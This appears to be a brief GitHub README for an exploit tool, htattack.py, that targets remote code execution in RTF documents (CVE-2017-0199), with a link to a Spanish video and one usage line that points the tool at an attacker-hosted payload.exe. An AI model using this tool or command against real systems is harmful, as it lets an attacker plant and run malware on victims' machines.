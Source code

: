 # htattack.py
An exploit implementation for RCE in RTF docs (CVE-2017-0199).

### Video (in Spanish):
https://www.youtube.com/watch?v=0lDvclMrymM

### Usage:

    python htattack.py -u <http://[attacker-url]/payload.exe>
